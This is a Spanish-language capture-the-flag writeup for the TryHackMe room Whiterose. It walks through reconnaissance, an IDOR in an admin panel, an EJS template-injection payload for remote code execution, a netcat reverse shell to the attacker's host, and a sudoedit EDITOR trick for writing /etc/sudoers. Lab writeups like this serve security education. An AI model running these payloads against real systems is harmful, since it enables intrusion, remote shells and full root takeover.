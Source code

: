 ```yaml
---
layout: ../../../../layouts/Post.astro
title: Whiterose THM Writeup
description: This is a writeup of Whiterose, a TryHackMe room.
publishDate: Martes, 25 de febrero de 2025
formatDate: 2025-02-25
author: "s1lentMT"
image: "/assets/blog/whiterose/whiterose-thm.png"
alt: Image of TryHackMe's Whiterose room.
tags: ["Writeup"]
---
```


Se nos indica al principio que el usuario Olivia Cortez con la contraseña olivi8 serán útiles a lo largo de la máquina.

Tras un escaneo de nmap, podemos determinar que los puertos 80 y 22 están abiertos, teniendo así los servicios de SSH y Nginx activos.

```shell
nmap -sC -sV -O --osscan-guess 10.10.170.109

Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-22 19:32 GMT
Nmap scan report for cyprusbank.thm (10.10.170.109)
Host is up (0.00035s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:07:96:0d:c4:b6:0c:d6:22:1a:e4:6c:8e:ac:6f:7d (RSA)
|   256 ba:ff:92:3e:0f:03:7e:da:30:ca:e3:52:8d:47:d9:6c (ECDSA)
|_  256 5d:e4:14:39:ca:06:17:47:93:53:86:de:2b:77:09:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
MAC Address: 02:12:8D:60:9B:2F (Unknown)
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 3.8 (95%), Linux 3.1 (95%), 
Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) 
(94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), 
Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ )
```

Las versiones de estos servicios son OpenSSH 7.6p1 Ubuntu 4ubuntu0.7, y nginx/1.14.0 respectivamente.

El sistema operativo de la máquina es Linux.

Al acceder a la web veremos un mensaje de mantenimiento.

![Imagen de la web](/assets/blog/whiterose/img-1.png)

## Enumeración

### Directorios

```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://cyprusbank.thm/FUZZ -ic
```

Con esta búsqueda no se ha encontrado nada, por lo tanto paso a hacer enumeración de VHOSTS.

```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ 
-u http://cyprusbank.thm -H 'Host: FUZZ.cyprusbank.thm' -ic -mc all -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://cyprusbank.thm
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.cyprusbank.thm
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 57
 :: Filter           : Response words: 1
 :: Filter           : Response lines: 4
________________________________________________

www                     [Status: 200, Size: 252, Words: 19, Lines: 9]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1]
WWW                     [Status: 200, Size: 252, Words: 19, Lines: 9]
:: Progress: [4997/4997] :: Job [1/1] :: 13044 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

Como vemos, admin llama a la atención, por lo tanto editaremos el archivo /etc/hosts, para poder acceder.

Una vez accedemos, hay un panel de administración.

![Imagen del panel de administración](/assets/blog/whiterose/img-2.png)

Si probamos a usar las credenciales que nos han indicado anteriormente en la sala, obtendremos acceso al panel.

![Imagen de dentro del panel de administración](/assets/blog/whiterose/img-3.png)

Los datos que vemos en el panel están censurados, por lo que no podremos ver el número de teléfono de Tyrell.

Si accedemos a la sección de mensajes, veremos una url con un parámetro interesante. Si lo cambiamos, haremos un IDOR y obtendremos las credenciales de una cuenta de administrador.

Con esto ya podremos obtener el número de teléfono de Tyrell.

Si accedemos al apartado de settings, e interceptamos la request, podremos jugar con los parámetros y ver que podemos producir un error 500 que mostrará una traza interesante:

```log
ReferenceError: /home/web/app/views/settings.ejs:14
    12|         <div class="alert alert-info mb-3"><%= message %></div>
    13|       <% } %>
 >> 14|       <% if (password != -1) { %>
    15|         <div class="alert alert-success mb-3">Password updated to '<%= password %>'</div>
    16|       <% } %>
    17|       <% if (typeof error != 'undefined') { %>

password is not defined
    at eval ("/home/web/app/views/settings.ejs":27:8)
    at settings (/home/web/app/node_modules/ejs/lib/ejs.js:692:17)
    at tryHandleCache (/home/web/app/node_modules/ejs/lib/ejs.js:272:36)
    at View.exports.renderFile [as engine] (/home/web/app/node_modules/ejs/lib/ejs.js:489:10)
    at View.render (/home/web/app/node_modules/express/lib/view.js:135:8)
    at tryRender (/home/web/app/node_modules/express/lib/application.js:657:10)
    at Function.render (/home/web/app/node_modules/express/lib/application.js:609:3)
    at ServerResponse.render (/home/web/app/node_modules/express/lib/response.js:1039:7)
    at /home/web/app/routes/settings.js:27:7
    at processTicksAndRejections (node:internal/process/task_queues:96:5)
```

Llama la atención el archivo settings.ejs, si buscamos algún tipo de exploit con referencia a esto, podremos vulnerar la máquina.

Y para nuestra suerte, hay un CVE que nos permite ejecutar comandos (RCE) en la máquina.

Con este payload podremos ejecutar el comando "whoami":

```http
name=test&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('whoami');&password=test
```

Al poder ejecutar este tipo de comandos, podríamos conseguir una reverse shell, lo que nos permitiría ejecutar comandos directamente en la máquina sin necesidad de interactuar a través de requests.

Con el siguiente payload podremos recibir la conexión en nuestro listener:

```shell
nc -lvnp 4444
name=test&password=&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 10.10.150.123 4444 -e sh');s
```

Posteriormente vamos a ver como en nuestro netcat se recibe una conexión, y podremos spawnear una shell con python o de otras maneras:

```shell
root@ip-10-10-150-123:~# nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.10.0 38318
python3 -c 'import pty; pty.spawn("/bin/bash")'
web@cyprusbank:~/app$ 

web@cyprusbank:~/app$ id
id
uid=1001(web) gid=1001(web) groups=1001(web)

```

Si seguimos investigando dentro de los directorios de nuestro servidor, veremos la flag de user.txt:

```shell
web@cyprusbank:~/app$ cd ..
cd ..
web@cyprusbank:~$ ls
ls
app  user.txt
web@cyprusbank:~$ cat user.txt
cat user.txt
THM{XXXXXXXXXXXXX}
web@cyprusbank:~$ 
```

Para ver que comandos puede ejecutar nuestro usuario, haremos sudo -l y vemos que tenemos permisos para ejecutar sudoedit:

```shell
web@cyprusbank:~/app$ sudo -l     
sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

A partir de aquí tenemos que ver como explotar la máquina y aprovecharnos de esto.

Vemos que hay un exploit que podemos hacer que nos permitiría tener privilegios como root:

```shell
export EDITOR="vim -- /etc/sudoers"
```

Esto nos permitirá abrir vim con el fichero /etc/sudoers cuando abramos el archivo /etc/nginx/sites-available/admin.cyprusbank.thm.

Ahora solo nos faltará hacer esto:

```shell
web ALL=(ALL:ALL) ALL
```

Y ya podríamos hacer sudo su sin contraseña necesaria :).

Solo nos faltaría encontrar el archivo root.txt, ver su contenido y ya tenemos nuestra sala terminada.

Esta flag se encontrará dnetro de /root, con un cat ya tendremos nuestra flag.

